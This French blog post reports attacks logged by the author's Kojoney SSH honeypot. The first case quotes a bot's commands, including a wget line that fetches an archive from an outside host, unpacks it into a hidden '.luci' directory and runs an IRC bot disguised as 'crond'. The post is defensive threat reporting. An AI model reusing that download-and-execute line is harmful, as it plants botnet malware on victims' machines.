```yaml
---
title: "Dernières visites sur le honeypot SSH"
tags: [honeypot]
---
```


Je vous fais part des dernières visites que j'ai eu sur mon honeypot [Kojoney](http://kojoney.sourceforge.net/) dont je vous avais parlé [ici]({% link _posts/2011-01-06-Revue-du-honeypot-Kojoney.md %}) et dont la dernière intrusion intéressante remonte à [ce billet]({% link _posts/2011-01-08-Intrusion-du-24-novembre-2006.md %}).  

Ici pas d'intrus très imaginatifs mais c'est l'occasion d'écrire quelque chose.  

## Premier cas  

Un brute force est effectué depuis une adresse IP située en Russie. [Le FAI](http://www.comcor.ru/ru/) a son siège social à Moscou.  

L'attaquant est venu depuis une adresse IP roumaine depuis le FAI [RDS](http://rdsnet.ro/solutii/solutii.htm).  

Les commandes lançées sont très certainement l'œuvre d'un bot :  

```bash
uname -a
uptime
/sbin/ifconfig | grep inet
cd /var/tmp; wget http://adriana.marte.ro/luci.tgz; tar xzvf luci.tgz; rm -rf luci.tgz; cd .luci; ./crond
```

La sortie de quelques commandes systèmes est récupérée (certainement enregistrée sur la machine qui a lancé le brute force). Ça leur permet de connaître la version du kernel, l'ip de la machine ainsi que son uptime (ils aiment bien ça)  

Une archive tgz est ensuite récupérée à l'aide de `wget`. Le fichier désarchivé donne un répertoire caché (`.luci`) dans lequel on trouve un [EnergyMech](http://fr.wikipedia.org/wiki/EnergyMech) compilé sous le nom `crond` ainsi qu'un [pico](http://fr.wikipedia.org/wiki/Pico_(logiciel)) (un éditeur de texte qu'on retrouve souvent dans ces *"kits"*... ils ne sont même pas capables d'utiliser `Vim`).  

L'adresse du site sur laquelle a été pris l'archive nous confirme la nationalité du pirate.  

Le bot IRC est configuré pour se connecter sur un serveur du réseau [UnderNet](http://fr.wikipedia.org/wiki/Undernet) sur un chan baptisé `#LUCIsiCUTIT`  

Une fois le bot lancé, le pirate n'a plus qu'à se connecter au chan pour lui donner des ordres. Bien sûr, comme *Kojoney* n'est qu'une simulation de shell, les commandes n'ont pas vraiment été exécutées.  

## Second cas  

L'attaque brute force provient d'une machine polonaise dont le FAI est [la version polonaise de FT/Orange](http://www.tp.pl/prt/).  
